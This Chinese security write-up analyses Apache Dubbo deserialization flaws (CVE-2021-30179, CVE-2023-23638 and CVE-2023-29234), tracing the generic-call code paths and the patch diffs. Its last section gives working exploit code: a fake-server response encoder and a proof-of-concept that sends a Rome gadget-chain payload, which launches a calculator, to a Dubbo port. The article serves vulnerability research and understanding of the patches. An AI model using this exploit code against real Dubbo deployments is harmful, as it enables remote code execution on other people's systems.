# Apache dubbo 部分历史漏洞以及 CVE-2023-29234 分析 - 先知社区

Apache dubbo 部分历史漏洞以及 CVE-2023-29234 分析

- - -

## 写在前面

最近学习并梳理了一下 Apache dubbo 的两个经典由于泛化调用处理存在问题的 CVE 漏洞，并分析了一下最新 CVE-2023-29234，总结出了两种利用方式。

## CVE-2021-30179

#### 前置：泛化调用

泛化调用（客户端泛化调用）是指在调用方没有服务方提供的 API（SDK）的情况下，对服务方进行调用，并且可以正常拿到调用结果。详细见 [https://cn.dubbo.apache.org/zh-cn/overview/tasks/develop/generic/](https://cn.dubbo.apache.org/zh-cn/overview/tasks/develop/generic/)

#### 调试分析

`org.apache.dubbo.remoting.transport.DecodeHandler#received` 作为客户端 RPC 调用请求信息处理的入口点，调用 `decode` 方法。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231219132949-a108a16a-9e2f-1.png)  
根据参数类型可知实际会调用到 `org.apache.dubbo.rpc.protocol.dubbo.DecodeableRpcInvocation#decode()`  
其中会先调用 `CodecSupport.getSerialization` 方法，根据 id 选择相应的反序列化策略，默认会走 `org.apache.dubbo.common.serialize.hessian2.Hessian2Serialization#deserialize` ，最终返回一个 `Hessian2ObjectInput` 实例。接着这一部分会按照顺序依次解析序列化流，获取 dubbo 服务版本、服务类路径、子版本、服务方法名以及参数描述符。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231219133146-e66c3370-9e2f-1.png)  
之后会根据方法名和参数名在服务端查找是否存在对应的服务方法，如果为 null，则调用 `RpcUtils.isGenericCall` 判断是否为泛型引用。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231219133545-750ef194-9e30-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231219133556-7b7946e2-9e30-1.png)  
如果是的话则调用 `ReflectUtils.desc2classArray` 方法显式加载 desc 当中的类。之后根据类型执行 readObject 反序列化参数值，并设置到 `RpcInvocation` 实例的各个字段当中。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231219134753-26fb4ff0-9e32-1.png)  
这个地方之前也是存在反序列化攻击利用的（感兴趣的师傅可以翻一翻以前的 CVE 分析）。不过根据

> [https://threedr3am.github.io/2021/06/01/CVE-2021-30179 - Dubbo Pre-auth RCE via Java deserialization in the Generic filter/](https://threedr3am.github.io/2021/06/01/CVE-2021-30179%20-%20Dubbo%20Pre-auth%20RCE%20via%20Java%20deserialization%20in%20the%20Generic%20filter/)  
> 提到：“受限于默认 hessian 或者已配置的序列化类型，具有一定的局限性”。

整体梳理一下这部分序列化/反序列化参数顺序：

-   string \* 5 (dubboVersion / path / version / methodName / desc)
-   object \* args (参数值实例，具体数量根据方法描述符 desc 决定)
-   map (这里面可用于设置 generic key)  
    之后会去执行 `org.apache.dubbo.remoting.exchange.support.header.HeaderExchangeHandler#received` ，这里关注到 `message` 参数类型当前为 Request 类，因此会走第一个分支（后续会关注到 Response 分支部分）。  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20231219135710-72edb6fe-9e33-1.png)  
    观察到刚才解析得到的各个参数值位于 `message` 的 `mData` 字段。  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20231219135745-87a587b6-9e33-1.png)  
    第一个分支当中会再次取出 `mData` 的字段值转化为 `RpcInvocation` 类实例，并调用 `org.apache.dubbo.remoting.exchange.support.ExchangeHandlerAdapter#received` 方法，进一步调用 `reply` 。  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20231219135820-9cf0130c-9e33-1.png)  
    之后就会触发一系列 Filter 的 invoke 方法，调用栈如下：  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20231219135855-b1a62f02-9e33-1.png)  
    关键 filter 函数是 `org.apache.dubbo.rpc.filter.GenericFilter#invoke` ，再次判断是否为泛型引用之后，会根据 `inv` 中提供的方法名从 dubbo 服务中找到对应方法，并取出参数类型和具体的参数值。  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20231219135941-cce5285e-9e33-1.png)  
    中间会从 `inv` 的 `attachments` 中取出 key 为 `generic` 的值，这个 `generic` 代表不同的反序列化策略，除 raw.return 外还有 nativejava、bean、protobuf-json 等。

**raw.return 反序列化方式分析**  
这里如果值为 `raw.return` ，则会调用 `PojoUtils.realize` 方法，接着会对每个 args 值调用 `realize0` 方法，如果这个 arg 属于 Map 类型，则取出 class 键值，并使用 `ClassUtils.forName` 方法，其中会对传入的 className 使用应用类加载器进行类加载。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231219140447-83320442-9e34-1.png)  
之后对于加载的 class 调用 `newInstance` 进行实例化。这里首先会去调用 class 默认的 public 构造函数，如果无法访问则会去遍历所有的构造器，优先获取**参数个数为 0 的构造函数**并反射调用。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231219140547-a7522b36-9e34-1.png)  
之后便是漏洞的一大利用点，它针对 HashMap 当中剩下的键值，先尝试获取 key 在实例化 class 当中对应 field 的 setter 方法（要求为单参数），如果可以获取到的话。会用和刚才相同的逻辑递归实例化参数值，并反射调用；如果获取不到 setter 方法，则直接反射设置 field 的值。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231219140630-c0b15d72-9e34-1.png)  
因此针对 `raw.return` 反序列化方式的利用是通过 Map 的方式来传入利用 class，可利用 class 的位置有 3 个：

```bash
1. public/private 修饰的无参构造函数
2. 参数为 1 的 setter 方法
3. 支持对实例化的 class 任意字段赋值
```

**bean 反序列化方式分析**  
这里会先遍历判断每个参数值是否为 `JavaBeanDescriptor` 类型，如果是则调用 `JavaBeanSerializeUtil.deserialize` 方法。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231219140803-f8117860-9e34-1.png)  
后面会调用到 `instantiateForDeserialize` 实例化方法，其中调用`name2Class` 方法中的 `Class.forName` 进行类加载，然后 `instatiate` 实例化。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231219140847-12ae252e-9e35-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231219140855-174bc19a-9e35-1.png)  
之后 `deserializeInternal` ，与 raw.return 的利用思路类似，如果 `beanDescriptor` 实例的 type 等于 `TYPE_BEAN` 的话则会依次执行指定 key 字段的 setter 方法或者反射为字段赋值。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231219140930-2be31b76-9e35-1.png)  
**PS**：其中 type 可以通过构造 `beanDescriptor` 实例时设置。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231219141003-3fe879f4-9e35-1.png)

**native 反序列化方式**  
这个利用比较特殊，需要配置中开启 `dubbo.security.serialize.generic.native-java-enable` 选项才能使用。  
这里如果参数值为 byte\[\] 数组的话，则会传入 `UnsafeByteArrayInputStream` 构造函数当中，后加载并调用 `NativeJavaObjectInput` 的 `deserialize` 方法。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231219141049-5b3f9f84-9e35-1.png)  
该类的 inputStream 字段封装了 ObjectInputStream 输入流，最终反序列化时也会调用的是后者，因此可触发二次反序列化。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231219141117-6bf0e6e4-9e35-1.png)

## CVE-2023-23638（学习 bypass 思路）

受影响版本：Apache Dubbo 3.0.x <= 3.0.13；3.1.x <= 3.1.5  
前版本 diff 分析  
`org.apache.dubbo.rpc.filter.GenericFilter#invoke` 方法当中，会对每个 args 值调用 `realize0` 方法，如果这个 arg 属于 Map 类型，则取出 class 键值，调用 `SerializeClassChecker.getInstance().validateClass` ，里面会作黑名单检查。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231219141430-deebe23e-9e35-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231219141521-fd332216-9e35-1.png)  
**bypass 思路**  
native 反序列化方式  
这个反序列化方式可以让我们触发一个二次反序列化，从而绕过上述安全检查。但是困难点在于 `dubbo.security.serialize.generic.native-java-enable` 选项默认未开启，因此利用思路就是寻找如何将它打开。  
于是这个 `org.apache.dubbo.common.utils.ConfigUtils#setProperties` 方法就十分有用，利用它可将`CommonConstants.ENABLE_NATIVE_JAVA_GENERIC_SERIALIZE` 属性设置为 true 即可。当然从 dubbo 的源码中可知 `System.setProperties` 也是可以直接设置 dubbo 服务属性的。  
因此绕过部分的 map 就可以写成：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231219141857-7dcaaffc-9e36-1.png)  
raw.return 反序列化方式  
将 `SerializeClassChecker` 类的 `CLASS_DESERIALIZE_BLOCKED_SET` 置空或者 `OPEN_CHECK_CLASS` 设置为 false，这个类实例的获取方式为单例模式，因此需要控制 `INSTANCE` 字段为上面指定的实例。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231219141952-9e90d392-9e36-1.png)  
绕过部分的 map 可以写成：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231219142013-ab7a28ce-9e36-1.png)  
修复方案：  
新增 `SerializeClassChecker` 类检查器，其中指定了 `dubbo.application.check-serializable` 默认为 true。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231219142125-d62cab14-9e36-1.png)  
其中的 `validateClass` 方法会检查指定反序列化类是否可序列化。这个方法会在 `realize0` 中调用。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231219142201-eb8647a4-9e36-1.png)  
之前需要用来设置属性的利用类 `org.apache.dubbo.common.utils.ConfigUtils` 以及 `java.lang.System` 均未实现序列化接口，因此不再可利用；同样，`org.apache.dubbo.common.utils.SerializeClassChecker` 也未实现序列化接口，无法覆盖其相关检查字段。

## CVE-2023-29234 （1day）

受影响版本：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231219142048-bfff440a-9e36-1.png)  
git diff: [https://github.com/apache/dubbo/commit/9ae97ea053dad758a0346a9acda4fbc8ea01429a](https://github.com/apache/dubbo/commit/9ae97ea053dad758a0346a9acda4fbc8ea01429a)  
`org.apache.dubbo.common.serialize.ObjectInput#readThrowable` 方法抛出异常的地方作了修改，而之前版本会直接打印 obj 对象，隐式触发 `toString` 方法，漏洞场景类似 CVE-2021-43297。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231219142439-49fadcf0-9e37-1.png)  
反向溯源调用位置，位于该函数的 switch-case 语句的 DubboCodec.RESPONSE\_WITH\_EXCEPTION 分支处调用 `org.apache.dubbo.rpc.protocol.dubbo.DecodeableRpcResult#decode(org.apache.dubbo.remoting.Channel, java.io.InputStream)`  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231219142505-5921b9b0-9e37-1.png)  
调用链如下：

```bash
org.apache.dubbo.rpc.protocol.dubbo.DecodeableRpcResult#decode(org.apache.dubbo.remoting.Channel, java.io.InputStream)
    --->
        handleException()
            --->
                ObjectInput.readThrowable()
                    --->
                        obj.toString()
```

[Dubbo 编解码那些事\_decodeablerpcresult-CSDN 博客](https://blog.csdn.net/vivo_tech/article/details/115633937) 可知 `DecodeableRpcResult` 这个类是在 dubbo 服务的消费者接收提供者方发来的响应时解码使用。  
**利用方式一：fake server**  
测试版本：Apache Dubbo 3.1.10  
我们知道 dubbo 支持多种序列化方式，对于 dubbo 协议来说默认为 hessian2，其他如下所示（hessian2 对应 id 为 2，也可以通过 `Serialization.getContentTypeId()` 获得）  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231219143052-2812545a-9e38-1.png)  
由官方文档可知，这个协议如何配置完全由服务方定的，因此完全可以做一个 fake server 来诱导客户端主动连接。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231219143144-473e7502-9e38-1.png)  
因此我们可以重写服务端编码响应信息函数的部分逻辑，主动构造一个用于上面提到的 toString 调用链对象来替代 Throwable 实例 th。  
具体重写位置在 `org.apache.dubbo.rpc.protocol.dubbo.DubboCodec#encodeResponseData(org.apache.dubbo.remoting.Channel, org.apache.dubbo.common.serialize.ObjectOutput, java.lang.Object, java.lang.String)`

```bash
@Override
    protected void encodeResponseData(Channel channel, ObjectOutput out, Object data, String version) throws IOException {
        Result result = (Result) data;
        // currently, the version value in Response records the version of Request
        boolean attach = Version.isSupportResponseAttachment(version);
//         Throwable th = result.getException();   
         Object th = null;  // 利用点：用于 toString 的 gadget chain
         try {
                th = getThrowablePayload("open -a calculator");
            } catch (Exception e) {

            }

        if (th == null) {
            Object ret = result.getValue();
            if (ret == null) {
                out.writeByte(attach ? RESPONSE_NULL_VALUE_WITH_ATTACHMENTS : RESPONSE_NULL_VALUE);
            } else {
                out.writeByte(attach ? RESPONSE_VALUE_WITH_ATTACHMENTS : RESPONSE_VALUE);   
                out.writeObject(ret);   
            }
        } else {
            out.writeByte(attach ? RESPONSE_WITH_EXCEPTION_WITH_ATTACHMENTS : RESPONSE_WITH_EXCEPTION);
//            out.writeThrowable(th); 
            out.writeObject(th);    // 直接序列化对象即可
        }

        if (attach) {
            // returns current version of Response to consumer side.
            result.getObjectAttachments().put(DUBBO_VERSION_KEY, Version.getProtocolVersion());
            out.writeAttachments(result.getObjectAttachments());
        }
    }
```

这里的 toString 调用链以 Rome toString 的利用部分为例，师傅们也可以选择/挖掘其他可利用的 gadget；同时，为了方便这里直接指定服务端的协议配置中的序列化方式为 nativejava，它反序列化时直接会使用 `ObjectInputStream#readObject` 。大家也可以探索一下其他序列化方式当中的黑名单绕过情况。

```bash
<dubbo:protocol name="dubbo" port="20880" serialization="nativejava"/>
```

客户端发起正常服务请求后，解码响应信息时顺利触发至 `org.apache.dubbo.common.serialize.ObjectInput#readThrowable` 位置，状态如下：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231219143553-db7b9786-9e38-1.png)  
**利用方式二：客户端打服务端**  
测试版本：3.1.5  
由于 dubbo 并没有限制客户端不能发送 Response 数据，因此客户端同样可以构造一个 Response 信息发给服务端。  
但是在服务端解码响应信息时，即函数调用位置为 `org.apache.dubbo.rpc.protocol.dubbo.DubboCodec#decodeBody`，不同版本之间存在差异性，这里测试了一下 3.1.10 以及 3.1.5 之间的区别。  
首先是 3.1.5 版本，注意到在创建 `DecodeableRpcResult` 实例时，其中一个构造参数 `invocation` 来自于 `getRequestData(id)`  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231219143643-f96c85ca-9e38-1.png)  
跟入可知这个 `invocation` 来自于 dubbo 服务当中还没处理完毕的请求，会根据 id 值来获取，而由于我们这里只发送了一个 Response 信息，`DefaultFuture` 当中的 `FUTURES` map 为空，这里也就会返回 null。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231219143848-44040798-9e39-1.png)  
但是依然可以将 `DecodeableRpcResult` 实例构造出来，并设置到 `res` 变量的 `mResult` 字段当中。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231219143912-5274e25c-9e39-1.png)  
后续在触发到 toString 入口的过程中，不会因为 `mResult` 字段为 null 或者非 `Decodeable` 类而中断（`DecodeableRpcResult` 是 `Decodeable` 的实现）。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231219143940-630ae508-9e39-1.png)  
而对于 3.1.10 版本，`getRequestData` 方法如果获取不到 `future` 会直接抛出异常，进而无法创建出有效的 `DecodeableRpcResult` 实例。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231219144004-7140a1bc-9e39-1.png)  
进而，后续 `message` 参数会由于是 null 而直接返回。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231219144025-7dae45e4-9e39-1.png)  
这里给出 3.1.5 版本下的测试 POC 核心部分：

```bash
public static void main(String[] args) throws Exception {

        ByteArrayOutputStream boos = new ByteArrayOutputStream();
        ByteArrayOutputStream nativeJavaBoos = new ByteArrayOutputStream();
        Serialization serialization = new NativeJavaSerialization();
        NativeJavaObjectOutput out = new NativeJavaObjectOutput(nativeJavaBoos);

        // header.
        byte[] header = new byte[HEADER_LENGTH];
        // set magic number.
        Bytes.short2bytes(MAGIC, header);
        // set request and serialization flag.
        header[2] = serialization.getContentTypeId();

        header[3] = Response.OK;
        Bytes.long2bytes(1, header, 4);

        // result
        Object exp = getThrowablePayload("open -a calculator"); // Rome toString 利用链
        out.writeByte(RESPONSE_WITH_EXCEPTION);
        out.writeObject(exp);

        out.flushBuffer();

        Bytes.int2bytes(nativeJavaBoos.size(), header, 12);
        boos.write(header);
        boos.write(nativeJavaBoos.toByteArray());

        byte[] responseData = boos.toByteArray();

        Socket socket = new Socket("127.0.0.1", 20880);
        OutputStream outputStream = socket.getOutputStream();
        outputStream.write(responseData);
        outputStream.flush();
        outputStream.close();
    }

    protected static Object getThrowablePayload(String command) throws Exception {
        Object o = Gadgets.createTemplatesImpl(command);
        ObjectBean delegate = new ObjectBean(Templates.class, o);

        return delegate;
    }
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231219144349-f72db62a-9e39-1.png)

完整 POC 项目基于 [DubboPOC](https://github.com/lz2y/DubboPOC/blob/main/src/main/java/top/lz2y/vul/CVE202323638.java) 作的修改和添加，可见 [CVE-2023-29234](https://github.com/RacerZ-fighting/DubboPOC)  
**PS：**git diff 当中还存在其他位置的 patch，值得进一步探索其他的利用方式（篇幅有限）。

## 引用

\[1\] [Apache dubbo 反序列化漏洞（CVE-2023-23638）分析及利用探索 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/12396)  
\[2\] [CVE-2023-29234: Bypass serialize checks in Apache Dubbo-Apache Mail Archives](https://lists.apache.org/thread/wb2df2whkdnbgp54nnqn0m94rllx8f77)  
\[3\] [开发服务 | Apache Dubbo](https://cn.dubbo.apache.org/zh-cn/overview/tasks/develop/generic/)  
\[4\] [Apache Dubbo CVE-2023-23638 JavaNative 反序列化漏洞分析 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/12333)  
\[5\] [【漏洞分析】Dubbo Pre-auth RCE（CVE-2021-30179） (qq.com)](https://mp.weixin.qq.com/s/vHJpE2fZ8Lne-xFggoQiAg)  
\[6\] [RPC 通信协议 | Apache Dubbo](https://cn.dubbo.apache.org/zh-cn/docs/concepts/rpc-protocol/)  
\[7\] [DubboPOC/src/main/java/top/lz2y/vul/CVE202323638.java at main · lz2y/DubboPOC (github.com)](https://github.com/lz2y/DubboPOC/blob/main/src/main/java/top/lz2y/vul/CVE202323638.java)  
\[8\] [Apache Dubbo 反序列化漏洞（CVE-2023-29234） · Issue #334 · y1ong/blog-timeline (github.com)](https://github.com/y1ong/blog-timeline/issues/334)
